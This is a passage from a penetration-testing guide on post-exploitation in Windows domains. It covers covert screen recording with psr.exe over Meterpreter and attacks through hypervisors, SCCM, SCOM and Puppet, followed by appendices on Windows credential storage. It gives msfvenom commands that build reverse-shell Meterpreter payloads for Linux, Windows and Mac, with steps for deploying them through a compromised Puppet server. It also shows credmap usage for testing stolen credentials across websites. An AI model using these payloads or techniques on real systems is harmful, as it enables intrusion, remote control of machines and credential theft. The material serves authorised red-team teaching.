 [/sketch (0|1)] [/slides (0|1)] [/gui (0|1)]
 [/arcetl (0|1)] [/arcxml (0|1)] [/arcmht (0|1)]
 [/stopevent <eventname>] [/maxlogsize <value>] [/recordpid <pid>]

 /start Start Recording. (Outputpath flag SHOULD be specified)
 /stop Stop Recording.
 /sc Capture screenshots for recorded steps.
 /maxsc Maximum number of recent screen captures.
 /maxlogsize Maximum log file size (in MB) before wrapping occurs.
 /gui Display control GUI.
 /arcetl Include raw ETW file in archive output.
 /arcxml Include MHT file in archive output.
 /recordpid Record all actions associated with given PID.
 /sketch Sketch UI if no screenshot was saved.
 /slides Create slide show HTML pages.
 /output Store output of record session in given path.
 /stopevent Event to signal after output files are generated.

Once, we have a meterpreter, we can use shell to execute it 

::

 psr.exe /start /gui 0 /output C:\Users\Dan\Desktop\cool.zip;
 Start-Sleep -s 20;
 psr.exe /stop;

Refer `Using Problem Steps Recorder (PSR) Remotely with Metasploit <https://cyberarms.wordpress.com/2016/02/13/using-problem-steps-recorder-psr-remotely-with-metasploit/>`_ 

Hypervisor
----------

A hypervisor or virtual machine monitor (VMM) is computer software, firmware or hardware that creates and runs virtual machines. Many of times, we would find that the client has deployed a common 4-tier architecture such as development, testing, staging, production (DEV, TEST, STAGING, PROD) on to hypervisor i.e. each environment on one hypervisor. If you compromise the Hypervisor ( mostly attached to Windows Domain ), you would end up compromising whole ( DEV/ TEST/ STAGING and PROD ) environment. Once, we compromised a client SAP environment in such manner.

Targeted Hunting
----------------

As we already have domain administrator privileges, we own the network and possibly have access to every machine. However, we will cover a non-traditional way to strategically target and compromise computers.

Microsoft’s System Center Configuration Manager
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

SCCM is a platform that allows for an enterprise to package and deploy operating systems, software, and software updates. It allows for IT staff to script and push out installations to clients in an automated manner. If you can gain access to SCCM, it makes for a great attack platform. It heavily integrates Windows PowerShell, has excellent network visibility, and has a number of SCCM clients as SYSTEM just waiting to execute your code as SYSTEM.

Enigma has written a awesome blog `Target workstation compromise with SCCM <https://enigma0x3.net/2015/10/27/targeted-workstation-compromise-with-sccm/>`_

Microsoft System Center Operations Manager
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

System Center Operations Manager (SCOM) is a cross-platform data center monitoring system for operating systems and hypervisors. It uses a single interface that shows state, health and performance information of computer systems. It also provides alerts generated according to some availability, performance, configuration or security situation being identified. It works with Microsoft Windows Server and Unix-based hosts.

SCOM also allows to monitor health of the system and provide powershell interface to the machine or provide an ability to execute a script on a particular machine.

Puppet
^^^^^^

Puppet is an open-source software configuration management tool. It runs on many Unix-like systems as well as on Microsoft Windows. It was created to easily automate repetitive and error-prone system administration tasks. Puppet's easy-to-read declarative language allows you to declare how your systems should be configured to do their jobs.

However, if an organization is utilizing puppet to control it servers/ workstations and we have compromised puppet server. We can just create a metasploit meterpreter based on the target operating system ( Windows/ Linux )
using msfvenom.

* Linux

 ::

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

* Windows

 ::

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

* Mac

 ::

 	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Create a module in puppet to include this payload using file resource and store in on the targeted machine. Utilizing exec resource, execute the payload and we would receive the meterpreter on the listener.

Tanoy Bose has written the blog on `Enterprise Offense: IT Operations [Part 1] - Post-Exploitation of Puppet and Ansible Servers <http://n0tty.github.io/2017/06/11/Enterprise-Offense-IT-Operations-Part-1/>`_ 

.. todo::

  * The Email- Mailbox Post exploitation -- Also the check if someone has exploited this (check logs) -- which is also connected to Domain? 
  * How does google email works?
  * File Hunting -- Better ways!! Faster ways!!

Credmap: The credential Mapper
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

`credmap <https://github.com/lightos/credmap>`_. is open source tool created by `Roberto Salgado <https://github.com/lightos>`_ to check for credential reuse. It is capable of testing the supplied user credentials on several websites to test if the password has been reused or not. This tool can be of great advantage to check the validation of the gathered credentials on other social media sites as well.

::

 Usage: credmap.py --email EMAIL | --user USER | --load LIST [options]

 Options:
   -h/--help             show this help message and exit
   -v/--verbose          display extra output information
   -u/--username=USER..  set the username to test with
   -p/--password=PASS..  set the password to test with
   -e/--email=EMAIL      set an email to test with
   -l/--load=LOAD_FILE   load list of credentials in format USER:PASSWORD
   -f/--format=CRED_F..  format to use when reading from file (e.g. u|e:p)
   -x/--exclude=EXCLUDE  exclude sites from testing
   -o/--only=ONLY        test only listed sites
   -s/--safe-urls        only test sites that use HTTPS
   -i/--ignore-proxy     ignore system default HTTP proxy
   --proxy               set proxy (e.g. "socks5://192.168.1.2:9050")
   --list                list available sites to test with
   --update              update from the official git repository

 Examples:
 ./credmap.py --username janedoe --email janedoe@email.com
 ./credmap.py -u johndoe -e johndoe@email.com --exclude "github.com, live.com"
 ./credmap.py -u johndoe -p abc123 -vvv --only "linkedin.com, facebook.com"
 ./credmap.py -e janedoe@example.com --verbose --proxy "https://127.0.0.1:8080"
 ./credmap.py --load creds.txt --format "e.u.p"
 ./credmap.py -l creds.txt -f "u|e:p"
 ./credmap.py -l creds.txt
 ./credmap.py --list


Appendix-I : Windows Credentials
================================

In this section, we have explained the concepts about authentication, credentials and authenticators, credential storage, authentication protocols, logon types. The below has been directly taken from the `Mitigating Pass-the-Hash (PtH) Attacks and Other Credential Theft, Version 1 and 2 <https://www.microsoft.com/en-in/download/details.aspx?id=36036>`_

Terminology: authentication, credentials, and authenticators
------------------------------------------------------------

When a user wants to access a computing resource, they must provide information that identifies who they are, their identity, and proof of this identity in the form of secret information that only they are supposed to know. This proof of identity is called an **authenticator**. An authenticator can take various forms, depending on the authentication protocol and method. The combination of an **identity** and an **authenticator** is called an **authentication credential or credential**. The process of creation, submission, and verification of credentials is described simply as **authentication**, which is implemented through various authentication protocols, such as NTLM and Kerberos authentication. Authentication establishes the identity of the user, but not necessarily the user's permission to access or change a computing resource, which is handled by a separate authorization process.


Credentials in Windows operating systems
----------------------------------------

Credentials are typically created or converted to a form required by the authentication protocols available on a computer. Credentials may be stored in LSASS process memory for use by the account during a session. Credentials must also be stored on disk in authoritative databases, such as the SAM database and the Active Directory database.
        
Identities - usernames
^^^^^^^^^^^^^^^^^^^^^^

In Windows operating systems, a user’s identity takes the form of the account’s username, either the "user name" (SAM Account Name) or the User Principal Name (UPN).

Windows authenticators
^^^^^^^^^^^^^^^^^^^^^^

Windows Credential Types, lists the credential authenticator types in Windows operating systems and provides a brief description of each type.

+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential Type       | Description                                                                                                           |
+=======================+=======================================================================================================================+
| Plaintext credentials | When a user logs on to a Windows computer and provides a username and credentials, such as a password or PIN, the     |
|                       | information is provided to the computer in plaintext. This plaintext password is used to authenticate the user’s      |
|                       | identity by converting it into the form required by the authentication protocol. Current versions of Windows also     |
|                       | retain an encrypted copy of this password that can be decrypted back to plaintext for use with authentication methods |
|                       | such as Digest authentication.                                                                                        |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| NT hash               | The NT hash of the password is calculated using an unsalted MD4 hash algorithm. MD4 is a cryptographic one-way        |
|                       | function that produces a mathematical representation of a password. This hashing function is designed to always       |
|                       | produce the same result from the same password input, and to minimize collisions where two different passwords can    | 
|                       | produce the same result. This hash is always the same length and cannot be directly decrypted to reveal the plaintext | 
|                       | password. Because the NT hash only changes when the password changes, an NT hash is valid for authentication until a  |
|                       | user’s password is changed. This also means that if two accounts use an identical password, they will also have an    |
|                       | identical NT password hash.                                                                                           |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| LM Hash               | LAN Manager (LM) hashes are derived from the user password. Legacy support for LM hashes and the LAN Manager          |
|                       | authentication protocol remains in the Windows NTLM protocol suite, but default configurations and Microsoft security |
|                       | guidance have discouraged their use for more than a decade. LM hashes have a number of challenges that make them less |
|                       | secure and more valuable to attackers if stolen:                                                                      |
|                       | - hashes required a password to be less than 15 characters long and contain only ASCII characters.                    |
|                       | - LM Hashes also do not differentiate between uppercase and lowercase letters.                                        |
|                       |                                                                                                                       |
|                       | Techniques to obtain the plaintext value from a LM hash with relatively low effort have been available for a number of| 
|                       | years, so the loss of a LM hash should be considered nearly equivalent to the loss of plaintext password.             |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Windows logon cached  | These verifiers are stored in the registry (HKLM\Security) on the local computer and provide validation of a domain   |
| password verifiers    | user’s credentials when the computer cannot connect to Active Directory during a user logon. These are not            |
|                       | credentials, as they cannot be presented to another computer for authentication, and they can only be used to locally |
|                       | verify a credential.                                                                                                  |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+

Credential Storage
^^^^^^^^^^^^^^^^^^

Credential Storage, lists the types of credential storage locations available on the Windows operating system.


+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential sources    | Description                                                                                                           |
+=======================+=======================================================================================================================+
| Security Accounts     | The SAM database is stored as a file on the local disk, and is the authoritative credential store for local accounts  |
| Manager (SAM)         | on each Windows computer. This database contains all the credentials that are local to that specific computer         |
| database              | including the built-in local Administrator account and any other local accounts for that computer.                    |
|                       |                                                                                                                       |
|                       | The SAM database stores information on each account, including the username and the NT password hash. By default,     |
|                       | the SAM database does not store LM hashes on current versions of Windows. It is important to note that no password is |
|                       | ever stored in a SAM database, only the password hashes.                                                              |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Local System Security | The Local Security Authority (LSA) stores credentials in memory on behalf of users with active Windows sessions. This |
| Authority Subsystem   | allows users to seamlessly access network resources, such as file shares, Exchange mailboxes, and SharePoint sites,   |
| ( LSASS ) process     | without reentering their credentials for each remote service. LSA may store credentials in multiple forms including:  |
| memory                | - Reversibly encrypted plaintext                                                                                      |
|                       | - Kerberos tickets (TGTs, service tickets)                                                                            |
|                       | - NT hash                                                                                                             |
|                       | - LM hash                                                                                                             |
|                       |                                                                                                                       |
|                       | If the user logs on to Windows using a smartcard, LSA will not store a plaintext password, but it will store the      |
|                       | corresponding NT hash value for the account and the plaintext PIN for the smartcard.                                  |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| LSA secrets on disk   | A Local Security Authority (LSA) secret is a secret piece of data that is accessible only to SYSTEM account processes.|
|                       | Some of these secrets are credentials that must persist after reboot and are stored in encrypted form on disk.        |
|                       | Credentials stored as LSA secrets on disk may include:                                                                |
|                       | - Account password for the computer’s Active Directory account.                                                       |                
|                       | - Account passwords for Windows services configured on the computer.                                                  |
|                       | - Account passwords for configured scheduled tasks.                                                                   |
|                       | - Account passwords for IIS application pools and websites.                                                           |
|                       | - An attack tool running as an account with administrative privileges on the computer can exploit those privileges to |
|                       |   extract these LSA secrets.                                                                                          |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Domain Active         | The Active Directory database is the authoritative store of credentials for all user and computer accounts in an      |
| Directory Database    | Active Directory domain. Each writable domain controller in the domain contains a full copy of the domain’s Active    |
| ( NTDS.DIT )          | Directory database, including account credentials for all accounts in the domain. Read-only domain controllers (RODCs)|
|                       | house a partial local replica with credentials for a selected subset of the accounts in the domain. By default, RODCs |
|                       | do not have a copy of privileged domain accounts.                                                                     |
|                       |                                                                                                                       |
|                       | The Active Directory database stores a number of attributes for each account, including both username types and the   |
|                       | following:                                                                                                            |
|                       | - NT hash for current password.                                                                                       |
|                       | - NT hashes for password history (if configured).                                                                     |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential Manager    | Users may choose to save passwords in Windows using an application or through the Credential Manager Control Panel    |
| (CredMan) store       | applet. These credentials are stored on disk and protected using the Data Protection Application Programming Interface|
|                       | (DPAPI), which encrypts them with a key derived from the user’s password. Any program running as that user will be    |
|                       | able to access credentials in this store.                                                                             |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+

Before we dig down in gathering credentials from a compromised machine, we should understand about Windows authentication protocols

Windows authentication protocols
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following table provides information on Windows authentication protocols and a brief description of each supported protocol.

+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| Protocol  | Description                                                                                                                 |
+===========+=============================================================================================================================+
| Kerboros  | Kerberos is the default and preferred authentication protocol for domain authentication on current Windows operating        |
|           | systems. Kerberos relies on a system of keys, tickets, and mutual authentication in which keys are normally not passed      |
|           | across the network. (Direct use of the key is permitted for some application clients under certain circumstances).          |
|           | Certain Kerberos-specific objects that are used in the authentication process are stored as LSA secrets in memory,          |
|           | such as Ticket Granting Tickets (TGT) and Service Tickets (ST). TGTs are Single sign-on (SSO) authentication credentials    |
|           | that can be reused for lateral movement or privilege escalation, while STs are not credentials that can be used for lateral |
|           | movement or privilege escalation.                                                                                           |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| NTLM      | NTLM protocols are authentication protocols that use a challenge and response method to make clients mathematically prove   |
|           | that they have possession of the NT hash. Current and past versions of Windows support multiple versions of this protocol,  |
|           | including NTLMv2, NTLM, and the LM authentication protocol.                                                                 |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| Digest    | Digest is a standards-based protocol typically used for HTTP and Lightweight Directory Access Protocol (LDAP) authentication|
|           | Digest authentication is described in RFCs 2617 and 2831. 								  |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+

Appendix-II Interesting Stories
===============================

* `Enumerating Excluded AntiVirus Locations <http://securitypadawan.blogspot.in/2016/01/enumerating-excluded-antivirus-locations.html>`_

* Launching Empire from Meterpreter/ Beacon and passing meterpreter to Metasploit/ Cobalt Strike : Refer Sixdub blog on `Empire & Tool Diversity: Integration is Key <http://www.sixdub.net/?p=627>`_

Tools
-----

* `PowerMemory <https://github.com/giMini/PowerMemory>`_

* `Data Exfiltration Toolkit (DET) <https://github.com/sensepost/DET>`_ 

.. disqus::
